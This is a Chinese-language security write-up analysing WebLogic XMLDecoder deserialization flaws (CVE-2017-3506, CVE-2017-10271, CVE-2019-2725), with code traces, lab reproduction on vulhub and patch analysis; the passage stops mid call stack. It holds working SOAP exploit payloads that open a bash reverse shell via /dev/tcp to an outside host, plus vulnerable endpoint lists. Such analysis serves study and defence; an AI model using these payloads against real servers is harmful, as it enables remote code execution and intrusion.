

Java 安全之 Weblogic 漏洞分析与利用 (下)

- - -

# Java 安全之 Weblogic 漏洞分析与利用 (下)

## 1\. 简介

官方介绍：Oracle WebLogic Server 是一个统一的可扩展平台，专用于开发、部署和运行 Java 应用等适用于本地环境和云环境的企业应用。它提供了一种强健、成熟和可扩展的 Java Enterprise Edition (EE) 和 Jakarta EE 实施方式。类似于 Tomcat、Jboss 等。

在上篇文章[Java 安全之 Weblogic 漏洞分析与利用 (上)](https://xz.aliyun.com/t/12947)中分析了部分 Weblogic 的漏洞的原理及利用方式，本文继续探索更多的漏洞原理。

## 2\. 基于 XML 反序列化漏洞

### 2.1 前置知识

**XMLDecoder**：  
官方文档解释

> The XMLDecoder class is used to read XML documents created using the XMLEncoder and is used just like the ObjectInputStream.

package: java.beans  
example:

```plain
XMLDecoder d = new XMLDecoder(
                    new BufferedInputStream(
                        new FileInputStream("Test.xml")));
Object result = d.readObject();
d.close();
```

Constructor and Method:

```plain
XMLDecoder(InputSource is)
//Creates a new decoder to parse XML archives created by the XMLEncoder class.

XMLDecoder(InputStream in)
//Creates a new input stream for reading archives created by the XMLEncoder class.
//...

Object readObject()
//Reads the next object from the underlying input stream.
//...
```

**XMLEncoder**:  
官方文档解释

> The XMLEncoder class is a complementary alternative to the ObjectOutputStream and can used to generate a textual representation of a JavaBean in the same way that the ObjectOutputStream can be used to create binary representation of Serializable objects.

example:

```plain
XMLEncoder e = new XMLEncoder(
                    new BufferedOutputStream(
                        new FileOutputStream("Test.xml")));
e.writeObject(new JButton("Hello, world"));
e.close();
```

Constructor and Method:

```plain
XMLEncoder(OutputStream out)
//Creates a new XML encoder to write out JavaBeans to the stream out using an XML encoding.
//...

void writeObject(Object o)
//Write an XML representation of the specified object to the output.
```

### 2.2 XMLDecoder 反序列化测试

测试类：

```plain
package XmlDecoder;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoderTest {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("C:\\code\\javacode\\java-sec\\src\\main\\java\\XmlDecoder\\poc.xml")));
        Object o = xmlDecoder.readObject();
        xmlDecoder.close();
    }
}
```

测试 poc.xml

```plain
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/C</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

命令执行成功  
**流程分析**：  
关键函数：

```plain
public boolean scanDocument(boolean complete)
throws IOException, XNIException {

    // keep dispatching "events"
    fEntityManager.setEntityHandler(this);
    //System.out.println(" get Document Handler in NSDocumentHandler " + fDocumentHandler );

    int event = next();
    do {
        switch (event) {
            // 7
            case XMLStreamConstants.START_DOCUMENT :
                //fDocumentHandler.startDocument(fEntityManager.getEntityScanner(),fEntityManager.getEntityScanner().getVersion(),fNamespaceContext,null);// not able to get
                break;
            // 1
            case XMLStreamConstants.START_ELEMENT :
                //System.out.println(" in scann element");
                //fDocumentHandler.startElement(getElementQName(),fAttributes,null);
                break;
            // 4
            case XMLStreamConstants.CHARACTERS :
                fDocumentHandler.characters(getCharacterData(),null);
                break;
            case XMLStreamConstants.SPACE:
                //check if getCharacterData() is the right function to retrieve ignorableWhitespace information.
                //System.out.println("in the space");
                //fDocumentHandler.ignorableWhitespace(getCharacterData(), null);
                break;
            case XMLStreamConstants.ENTITY_REFERENCE :
                //entity reference callback are given in startEntity
                break;
            case XMLStreamConstants.PROCESSING_INSTRUCTION :
                fDocumentHandler.processingInstruction(getPITarget(),getPIData(),null);
                break;
            case XMLStreamConstants.COMMENT :
                //System.out.println(" in COMMENT of the XMLNSDocumentScannerImpl");
                fDocumentHandler.comment(getCharacterData(),null);
                break;
            case XMLStreamConstants.DTD :
                //all DTD related callbacks are handled in DTDScanner.
                //1. Stax doesn't define DTD states as it does for XML Document.
                //therefore we don't need to take care of anything here. So Just break;
                break;
            case XMLStreamConstants.CDATA:
                fDocumentHandler.startCDATA(null);
                //xxx: check if CDATA values comes from getCharacterData() function
                fDocumentHandler.characters(getCharacterData(),null);
                fDocumentHandler.endCDATA(null);
                //System.out.println(" in CDATA of the XMLNSDocumentScannerImpl");
                break;
            case XMLStreamConstants.NOTATION_DECLARATION :
                break;
            case XMLStreamConstants.ENTITY_DECLARATION :
                break;
            case XMLStreamConstants.NAMESPACE :
                break;
            case XMLStreamConstants.ATTRIBUTE :
                break;
            // 2
            case XMLStreamConstants.END_ELEMENT :
                //do not give callback here.
                //this callback is given in scanEndElement function.
                //fDocumentHandler.endElement(getElementQName(),null);
                break;
            default :
                throw new InternalError("processing event: " + event);

        }
        //System.out.println("here in before calling next");
        event = next();
        //System.out.println("here in after calling next");
    } while (event!=XMLStreamConstants.END_DOCUMENT && complete);

    if(event == XMLStreamConstants.END_DOCUMENT) {
        fDocumentHandler.endDocument(null);
        return false;
    }

    return true;

} // scanDocument(boolean):boolean
```

这个函数是扫描 xml 文档的一个方法，逐个标签读取，同时会读取到换行符  
对于以上 poc，解析流程为：714 14 14 14 14(cmd) 24 24 14 14(/C) 24 24 14 14(calc) 24 24 24 124 28  
这里的关键逻辑都在 next 中  
比如在解析`<void class="java.lang.ProcessBuilder">`时，函数调用栈如下：

```plain
addAttribute:84, NewElementHandler (com.sun.beans.decoder)
addAttribute:102, ObjectElementHandler (com.sun.beans.decoder)
startElement:294, DocumentHandler (com.sun.beans.decoder)
startElement:509, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
scanStartElement:1364, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2787, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:606, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:510, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:848, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:777, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1213, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:643, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:327, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:375, DocumentHandler$1 (com.sun.beans.decoder)
run:372, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:76, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:372, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
main:11, XmlDecoderTest (XmlDecoder)
```

从 next 开始，首先进入 XMLDocumentScannerImpl 类的 next 方法

```plain
public int next() throws IOException, XNIException {
    return fDriver.next();
}
```

这里的 fDriver 是 XMLDocumentScannerImpl 对象，接下来到 XMLDocumentFragmentScannerImpl 的 next 方法  
这个方法比较长。主要是根据 fScannerState 参数来选择对应的 case  
这里进入这个 case

```plain
case SCANNER_STATE_START_ELEMENT_TAG :{

    //xxx this function returns true when element is empty.. can be linked to end element event.
    //returns true if the element is empty
    // 扫描
    fEmptyElement = scanStartElement() ;
    //if the element is empty the next event is "end element"
    if(fEmptyElement){
        setScannerState(SCANNER_STATE_END_ELEMENT_TAG);
    }else{
        //set the next possible state
        setScannerState(SCANNER_STATE_CONTENT);
    }
    return XMLEvent.START_ELEMENT ;
}
```

XMLDocumentFragmentScannerImpl 类的 scanStartElement 方法主要作用是解析标签及其属性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200833-610981e2-78af-1.png)  
来到 AbstractSAXParser 类的 startElement 方法

```plain
fContentHandler.startElement(uri, localpart, element.rawname,
                                             fAttributesProxy);
```

进入这句，fContentHandler 为 DocumentHandler，进入 DocumentHandler 的 startElement 方法

```plain
public void startElement(String var1, String var2, String var3, Attributes var4) throws SAXException {
    ElementHandler var5 = this.handler;

    try {
        // 创建一个新的ElementHandler实例，并通过反射设置其所有者和父级处理器
        this.handler = (ElementHandler)this.getElementHandler(var3).newInstance();
        this.handler.setOwner(this);
        this.handler.setParent(var5);
    } catch (Exception var10) {
        throw new SAXException(var10);
    }
    // 遍历属性列表，并将属性添加到当前处理器中
    for(int var6 = 0; var6 < var4.getLength(); ++var6) {
        try {
            String var7 = var4.getQName(var6);
            String var8 = var4.getValue(var6);
            // 这里
            this.handler.addAttribute(var7, var8);
        } catch (RuntimeException var9) {
            this.handleException(var9);
        }
    }

    this.handler.startElement();
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200857-6f5bc1c4-78af-1.png)  
这里的 this.handler 指的是 VoidElementHandler 对象  
可以进入 getElementHandler 函数，此时的 var1 是 void

```plain
public Class<? extends ElementHandler> getElementHandler(String var1) {
    Class var2 = (Class)this.handlers.get(var1);
    if (var2 == null) {
        throw new IllegalArgumentException("Unsupported element: " + var1);
    } else {
        return var2;
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200931-837545f4-78af-1.png)  
所以最后得到的 this.handler 是 VoidElementHandler 对象对象  
继续往下跟，来到 ObjectElementHandler 的 addAttribute 方法

```plain
public final void addAttribute(String var1, String var2) {
    if (var1.equals("idref")) {
        this.idref = var2;
    } else if (var1.equals("field")) {
        this.field = var2;
    } else if (var1.equals("index")) {
        this.index = Integer.valueOf(var2);
        this.addArgument(this.index);
    } else if (var1.equals("property")) {
        this.property = var2;
    } else if (var1.equals("method")) {
        this.method = var2;
    } else {
        // 进入到这里
        super.addAttribute(var1, var2);
    }
}
```

这里传入的 var1 是"class"，var2 是"java.lang.ProcessBuilder"  
进入父类的 addAttribute 方法

```plain
public void addAttribute(String var1, String var2) {
    if (var1.equals("class")) {
        // 通过反射生成 var2 对应的对象
        this.type = this.getOwner().findClass(var2);
    } else {
        super.addAttribute(var1, var2);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101200953-904407b6-78af-1.png)  
也可以进去看看，this.getOwner() 得到的是 DocumentHandler 对象，调用其 findClass 方法，该方法中又调用 ClassFinder.resolveClass 方法，其方法中调用了 ClassFinder.findClass 方法

```plain
public static Class<?> findClass(String var0, ClassLoader var1) throws ClassNotFoundException {
    ReflectUtil.checkPackageAccess(var0);
    if (var1 != null) {
        try {
            // var0 是类名，通过反射获取类
            return Class.forName(var0, false, var1);
        } catch (ClassNotFoundException var3) {
        } catch (SecurityException var4) {
        }
    }
    // 调用重载方法，作用也是一样
    return findClass(var0);
}
```

其他元素的解析流程大致类似  
再来看看字符串是如何解析的，如下面这句

```plain
<string>calc</string>
```

先解析`<string>`标签，创建 StringElementHandler 对象  
然后再解析 calc 字符串  
进入到对应的 case 中

```plain
case XMLStreamConstants.CHARACTERS :
    fDocumentHandler.characters(getCharacterData(),null);
    break;
```

进入 fDocumentHandler.characters 方法，这里传入的是 calc 字符串。此时的 fDocumentHandler 的 handler 参数是之前在解析`<string>`标签时创建 StringElementHandler 对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201016-9e356680-78af-1.png)  
继续进入 characters 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201036-a9f0fa48-78af-1.png)  
这里的 var1 正是 poc 字符，var2 标识 calc 字符串的偏移，var3 表示字符串的长度  
this.handler 是 StringElementHandler 对象，进入其 addCharacter 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201100-b8a902e2-78af-1.png)  
经过 4 次循环，将 calc 字符串添加到 StringElementHandler 对象的 sb 属性中  
至此，字符串的解析完成

再来看看最后一句的解析，这也触发了命令执行

```plain
<void method="start"/></void>
```

逐步调试，前面部分的流程和其他标签处理方法一致，进入 ObjectElementHandler 的 getValueObject 方法

```plain
protected final ValueObject getValueObject(Class<?> var1, Object[] var2) throws Exception {
    if (this.field != null) {
        // 如果存在字段（field），则通过 FieldElementHandler 获取上下文 Bean（contextBean）中字段的值，并创建一个 ValueObjectImpl 实例返回
        return ValueObjectImpl.create(FieldElementHandler.getFieldValue(this.getContextBean(), this.field));
    } else if (this.idref != null) {
        // 如果存在 idref，则通过 getVariable 方法获取变量的值，并创建一个 ValueObjectImpl 实例返回
        return ValueObjectImpl.create(this.getVariable(this.idref));
    } else {
        Object var3 = this.getContextBean();
        String var4;
        if (this.index != null) {
            // 如果存在索引（index），根据 var2 的长度确定是设置方法还是获取方法
            var4 = var2.length == 2 ? "set" : "get";
        } else if (this.property != null) {
            // 如果存在属性（property），根据 var2 的长度确定是设置方法还是获取方法，并根据属性名构造对应的方法名
            var4 = var2.length == 1 ? "set" : "get";
            if (0 < this.property.length()) {
                var4 = var4 + this.property.substring(0, 1).toUpperCase(Locale.ENGLISH) + this.property.substring(1);
            }
        } else {
            // 如果存在方法（method），则使用指定的方法名，否则使用默认的"new"方法名
            var4 = this.method != null && 0 < this.method.length() ? this.method : "new";
        }
        // 创建一个 Expression 实例，用于调用指定的方法，并获取返回值
        Expression var5 = new Expression(var3, var4, var2);
        // 创建一个 ValueObjectImpl 实例，将 Expression 的返回值包装为 ValueObjectImpl，并返回
        return ValueObjectImpl.create(var5.getValue());
    }
}
```

先进入 NewElementHandler 类的 getContextBean 方法

```plain
protected final Object getContextBean() {
    return this.type != null ? this.type : super.getContextBean();
}
```

这里的 type 为空，所以需要进入父类的 getContextBean 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201125-c78e72d8-78af-1.png)  
其实根据 poc 的结构也知道，这里的父类就是 type 为 ProcessBuilder 对应的 VoidElementHandler 对象  
此时继续进入父类的 getValueObject 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201200-dc1a0488-78af-1.png)  
进入重载方法，同样先调用 getContextBean()，由于此时 type 不为空，所以返回 type  
接着对于方法而言，由于方法为空，所以设置为 new  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201222-e95eb8fa-78af-1.png)  
这里相当于创建一个 ProcessBuilder 对象  
继续回到解析`<void method="start"/></void>`的 getValueObject 方法，此时的 var3 经过 getContextBean 处理后的是 ProcessBuilder 对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201245-f6dc850c-78af-1.png)  
最后一行，调用了 ProcessBuilder 对象的 start 方法，命令执行成功  
函数调用栈：

```plain
getValue:157, Expression (java.beans)
getValueObject:166, ObjectElementHandler (com.sun.beans.decoder)
getValueObject:123, NewElementHandler (com.sun.beans.decoder)
endElement:169, ElementHandler (com.sun.beans.decoder)
endElement:318, DocumentHandler (com.sun.beans.decoder)
endElement:609, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
emptyElement:183, AbstractXMLDocumentParser (com.sun.org.apache.xerces.internal.parsers)
scanStartElement:1344, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2787, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:606, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:510, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:848, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:777, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1213, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:643, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:327, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:375, DocumentHandler$1 (com.sun.beans.decoder)
run:372, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:76, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:372, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
main:11, XmlDecoderTest (XmlDecoder)
```

> Expression 这个类，该类主要作用是动态调用指定对象的 methodName 方法。

**参考**：  
[https://zhuanlan.zhihu.com/p/108754274](https://zhuanlan.zhihu.com/p/108754274)

### 2.3 CVE-2017-3506 分析

**影响范围**：  
WebLogic 10.3.6.0  
WebLogic 12.1.3.0  
WebLogic 12.2.1.0  
WebLogic 12.2.1.1  
WebLogic 12.2.1.2  
CVE-2017-10271 也是一致

默认受到影响的 uri：

```plain
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

**分析**：  
原理大致和下面 CVE-2017-10271 一致  
**补丁分析**：

```plain
private void validate(InputStream is) {
    WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
    try {
        SAXParser parser = factory.newSAXParser();
        parser.parse(is, new DefaultHandler() {
        public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
                throw new IllegalStateException("Invalid context type: object");
            }
        }
        });
    } catch (ParserConfigurationException var5) {
        throw new IllegalStateException("Parser Exception", var5);
    } catch (SAXException var6) {
        throw new IllegalStateException("Parser Exception", var6);
    } catch (IOException var7) {
        throw new IllegalStateException("Parser Exception", var7);
    }
}
```

这里就是将 object 标签进行过滤，绕过方式就是将 object 修改成 void，也就是 CVE-2017-10271

### 2.4 CVE-2017-10271 分析

**环境搭建**：  
使用 vulhub 中的环境，修改 docekr-compose.yml 文件，加上 8453 端口的映射，使其能够调试  
**复现**：  
exp:

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void> 
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

bp 抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201316-0987ec50-78b0-1.png)  
反弹 shell 成功  
**远程调试**：  
进入容器，配置 weblogic 开启远程调试  
改`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`文件，加入以下内容

```plain
debugFlag="true"
export debugFlag
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201350-1de92c72-78b0-1.png)  
重启容器即可调试  
将需要调试目录导出，放入 IDEA，即可启动调试

```plain
sudo docker cp 9e239f7fb3ff:/root ./cve201710271Env
cd cve201710271Env/Oracle/Middleware
mkdir lib
find ./ -name "*.jar" -exec cp {} ./lib/ \;
find ./ -name "*.war" -exec cp {} ./lib/ \;
```

**漏洞分析**：  
函数调用栈：

```plain
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
receive:71, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
readHeaderOld:107, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
doRun:778, Fiber (com.sun.xml.ws.api.pipe)
runSync:680, Fiber (com.sun.xml.ws.api.pipe)
process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
post:336, HttpServletAdapter (weblogic.wsee.jaxws)
doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
service:99, AbstractAsyncServlet (weblogic.servlet.http)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

查看 weblogic/wsee/jaxws/workcontext/WorkContextServerTube 的 processRequest 方法

```plain
public NextAction processRequest(Packet var1) {
    this.isUseOldFormat = false;
    if (var1.getMessage() != null) {
        // 获取头部信息
        HeaderList var2 = var1.getMessage().getHeaders();
        // 从消息的头部列表中获取指定的头部信息
        Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
        if (var3 != null) {
            // 如果存在指定的头部信息，则使用旧的格式进行读取处理，并将 isUseOldFormat 标记为 true
            // 这里
            this.readHeaderOld(var3);
            this.isUseOldFormat = true;
        }
        // 从消息的头部列表中获取 JAX-WS 工作区的头部信息
        Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
        if (var4 != null) {
             // 如果存在 JAX-WS 工作区的头部信息，则进行读取处理
            this.readHeader(var4);
        }
    }
    // 调用父类的 processRequest 方法进行进一步处理，并返回 NextAction 对象
    return super.processRequest(var1);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201418-2e4ec702-78b0-1.png)  
进入 weblogic/wsee/jaxws/workcontext/WorkContextTube 的 readHeaderOld 方法

```plain
protected void readHeaderOld(Header var1) {
    try {
        // 读取 Header 中的 XML 数据流
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        // 创建 XMLStreamReaderToXMLStreamWriter 实例，用于将 XMLStreamReader 的数据桥接到 XMLStreamWriter
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        // 创建 WorkContextXmlInputAdapter 实例，并将 XML 数据流转换为适配器可接受的输入流
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        // 调用 receive 方法处理适配器中的输入流
        this.receive(var6);
    } catch (XMLStreamException var7) {
        // 抛出 WebServiceException 异常，表示在处理 XML 数据流时出现错误
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        // 抛出 WebServiceException 异常，表示在读取或处理输入流时出现错误
        throw new WebServiceException(var8);
    }
}
```

该方法将 XML 数据流转换为字节数组，并通过适配器将其转换为可处理的输入流。然后，调用 receive 方法处理适配器中的输入流  
其中进入 WorkContextXmlInputAdapter 的构造函数，它实例化了一个 XMLDecoder 对象，并将输入的 xml 输入流作为参数，这与前面的测试例子一样，现在目标是需要调用 readObject 进行反序列化

```plain
public WorkContextXmlInputAdapter(InputStream var1) {
    this.xmlDecoder = new XMLDecoder(var1);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201459-47229f92-78b0-1.png)  
进入 weblogic/wsee/jaxws/workcontext/WorkContextServerTube 的 receive 方法

```plain
protected void receive(WorkContextInput var1) throws IOException {
    // 获取 WorkContextMapInterceptor 实例
    WorkContextMapInterceptor var2 = WorkContextHelper.getWorkContextHelper().getInterceptor();
    // 调用 WorkContextMapInterceptor 的 receiveRequest 方法，将 WorkContextInput 对象传递给拦截器进行处理
    var2.receiveRequest(var1);
}
```

这里的 var1 是前面创建的 WorkContextXmlInputAdapter 对象，后面的 receiveRequest、receiveRequest、readEntry 等方法中都是 WorkContextXmlInputAdapter 对象，直到进入 weblogic/wsee/workarea/WorkContextXmlInputAdapter 的 readUTF 方法

```plain
public String readUTF() throws IOException {
    return (String)this.xmlDecoder.readObject();
}
```

它调用了 readObject 方法对目标 xml 进行反序列化，从而触发命令执行。后面 XMLDecoder 的调用链和 2.2 中的测试是一致的  
**补丁分析**：

```plain
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
               }
            }
         }
      });
   }
}
```

使用黑名单对上述标签进行了过滤

### 2.5 CVE-2019-2725 分析

**影响范围**：  
WebLogic 10.X  
WebLogic 12.1.3  
**影响 uri**：

```plain
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
/_async/AsyncResponseServiceSoap12
/_async/AsyncResponseServiceSoap12Jms
/_async/AsyncResponseServiceSoap12Https
```

**复现**：  
exp：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:wsa="http://www.w3.org/2005/08/addressing"
                  xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action>xx</wsa:Action>
        <wsa:RelatesTo>xx</wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231101201526-57432022-78b0-1.png)  
**漏洞分析**：  
函数调用栈：

```plain
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
handleRequest:27, WorkAreaServerHandler (weblogic.wsee.workarea)
handleRequest:141, HandlerIterator (weblogic.wsee.handler)
dispatch:114, ServerDispatcher (weblogic.wsee.ws.dispatch.server)
invoke:80, WsSkel (weblogic.wsee.ws)
handlePost:66, SoapProcessor (weblogic.wsee.server.servlet)
process:44, SoapProcessor (weblogic.wsee.server.servlet)
